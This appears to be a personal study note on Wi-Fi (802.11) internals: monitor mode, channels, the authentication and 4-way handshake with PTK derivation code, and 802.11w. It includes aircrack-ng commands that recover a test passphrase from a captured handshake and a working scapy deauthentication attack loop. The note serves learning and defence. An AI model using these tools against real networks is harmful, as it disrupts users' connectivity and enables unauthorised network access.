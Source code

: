 # IEEE 802.11

This is basically WLAN/Wi-Fi.

## Monitor Mode

Run the command (note that it will kill your internet connection) to switch to monitor mode:

```sh
airmon-ng start wlp4s0
```

This will create an interface `wlp4s0mon`.
Start a Wireshark capture on that interface.

You need to be on the right channel:

```sh
iwconfig wlp4s0mon channel 56
```

You can find out the channel by running `nmcli dev wifi`.

Note that you can remove the interface by running:

```sh
airmon-ng stop wlp4s0mon
```

## Channels

Network cards can listen on different channels with different frequencies.

You can see the channels by running `nmcli device wifi list`:

```
1C:ED:6F:B2:70:BC  examplenet                      Infra  11    270 Mbit/s  97      ▂▄▆█  WPA2
1C:ED:6F:B2:70:BD  examplenet                      Infra  52    405 Mbit/s  95      ▂▄▆█  WPA2
```

Channel 11 corresponds to the frequency range in the area of 2,4 GHz and channel 52 corresponds to a frequency range in the area of 5 GHz.

Note that these channels are centrally defined (not just for WLAN - if you want to learn something interesting, google TETRA, BOS and "Digitalfunk der Behörden und Organisationen mit Sicherheitsaufgaben" (BOSNet)).

## The Authentication Process

Let's say a station STA wants to authenticate with access point AP.

- STA sends an authenticaion request to AP
- AP send an authentication response to STA
- STA sends an association request to AP
- AP sends an association response to STA
- STA and AP exchange a 4-way handshake (4 KEY packets)

STA is now authenticated to AP.

Let's now look at such an exchange in detail.
Here the STA `2c:db:07:40:9a:16` tries to authenticate with the AP `1c:ed:6f:b2:70:bd`.

### Authentication Request & Response

The name is a bit misleading, it's more of an identitiy establishment step.
Here the STA establishes its identity with the AP.

Let's look at our example.
First STA `2c:db:07:40:9a:16` sends an authentication request to AP `1c:ed:6f:b2:70:bd`.
The packet contains:

- authentication algorithm (Open System in this case)
- authentication SEQ `0x0001`

Then the AP `1c:ed:6f:b2:70:bd` responds to STA `2c:db:07:40:9a:16`:

- authentication algorithm (Open System again)
- authentication SEQ `0x0002`

### Association Request & Response

Next the STA tries to associate with the AP.

Let's look at our example.
First STA `2c:db:07:40:9a:16` sends an association request to AP `1c:ed:6f:b2:70:bd`.
This packet contains a lot of information about things like supported rates etc.

The association response is similar.

### 4-Way Handshake

Here the actual authentication happens in 4 messages.

Message 1: AP sends the ANonce to STA.

Here the ANonce was:

```
3a4b19d360e946ffc039f98a811599ccb916631f7866f08f413caad6f240bd3b
```

Message 2: STA sends SNonce to AP.

Here the SNonce was:

```
f5ea43a088b5593425e5d93cfc5c0a8aef627d978ee72dc16545d63e6d7522d6
```

The PTK is constructed as follows:

```
PTK = PRF(PMK, "Pairwise key exchange", Min(AA, SPA) || Max(AA, SPA) || Min(ANonce, SNonce) || Max(ANonce, SNonce))
```

Example code:

```python
from hashlib import pbkdf2_hmac, sha1
import hmac
import hashlib

def to_bytes(num):
    return hex(num)[2:].encode("ascii")

def calculate_ptk(PMK, AA, SPA, ANonce, SNonce):
    MIN_AA_SPA = min(AA, SPA)
    MAX_AA_SPA = max(AA, SPA)
    MIN_ANonce_SNonce = min(ANonce, SNonce)
    MAX_ANonce_SNonce = max(ANonce, SNonce)

    PTK = b''
    for i in range(4):  # Iterate to generate 512 bits
        PTK += hmac.new(PMK, b"Pairwise key expansion" + b'\x00' + MIN_AA_SPA + MAX_AA_SPA + MIN_ANonce_SNonce + MAX_ANonce_SNonce + bytes([i]), hashlib.sha1).digest()

    # return PRF(PMK, b"Pairwise key expansion", MIN_AA_SPA + MAX_AA_SPA + MIN_ANonce_SNonce + MAX_ANonce_SNonce)
    return PTK[:64]


PSK = "Test1234!"
SSID = "examplenet"
PMK = pbkdf2_hmac('sha1', PSK.encode('ascii'), SSID.encode('ascii'), 4096, 32)
print("PMK")
print(PMK.hex())

AA = bytes.fromhex("1c:ed:6f:b2:70:bd".replace(":", ""))
SPA = bytes.fromhex("2c:db:07:40:9a:16".replace(":", ""))
ANonce = bytes.fromhex("3a4b19d360e946ffc039f98a811599ccb916631f7866f08f413caad6f240bd3b")
SNonce = bytes.fromhex("f5ea43a088b5593425e5d93cfc5c0a8aef627d978ee72dc16545d63e6d7522d6")

print("PTK")
print(calculate_ptk(PMK, AA, SPA, ANonce, SNonce).hex())
```

To compare:

- capture packets
- convert pcapng file to pcap with `editcap -F libpcap examplenet.pcapng examplenet.pcap`
- aircrack the file with `aircrack-ng -w dict.txt examplenet.pcap`

Output:

```
[00:00:00] 1/1 keys tested (41.94 k/s)

Time left: --

                        KEY FOUND! [ Test1234! ]


Master Key     : E4 BC 89 BB 3E 24 64 A4 85 E8 BF C8 15 18 38 A2
                26 FB D6 39 D6 51 AA F9 6F 52 9D 47 07 1A 4C 6A

Transient Key  : 61 4F 89 6F EF 3E 81 F8 4C 7D 37 DE 83 26 F5 27
                BA A1 C7 92 00 6E 0B 80 61 A6 4E 4A 3E 27 6B 8E
                0C E3 52 04 BA DF 3D 43 12 6E 25 4C F0 CE AC AF
                2D 00 71 35 66 B2 2A 55 0D 63 24 45 D9 64 D6 FD

EAPOL HMAC     : C0 D7 3D 40 41 E8 B7 AD 61 0F 77 7E 46 88 C4 5E
```

## Deauthentication and Deassociation Frames

A deauthentication frame deauthenticates a device from an AP.
Here is what it has:

- source address is the address of the device to deauthenticate
- destination address is the AP address
- BSSID address is the AP address

Deauthentication attack:

```python
from scapy.all import *
import time

target_client = '7c:21:4a:f7:08:9b'  # MAC address of the device you want to deauthenticate
access_point = '62:22:32:37:56:cf'       # MAC address of your access point
iface = "wlp4s0mon"

# addr1 = Destination, addr2 = Source, addr3 = BSSID
deauth_packet = RadioTap()/Dot11(type=0,subtype=12,addr1=access_point, addr2=target_client, addr3=access_point)/Dot11Deauth(reason=7)

while True:
    print("Send deauth packet")
    sendp(deauth_packet, iface=iface)
    time.sleep(1)
```

Protect your management frames with 802.11w:

```
Data = CCMP(Payload || MIC(Payload))
```

The CCMP encryption uses the PTK.

## Other Management Frames

### Probe Request

A probe request is sent by stations to discover available access points.

### Probe Response

TODO

### Beacon Frame

Periodically sent out by the access station.
This is very similar to the probe response (except that it doesn't actually respond to some probe request).

## Control Frames

TODO

## Data Frames

TODO
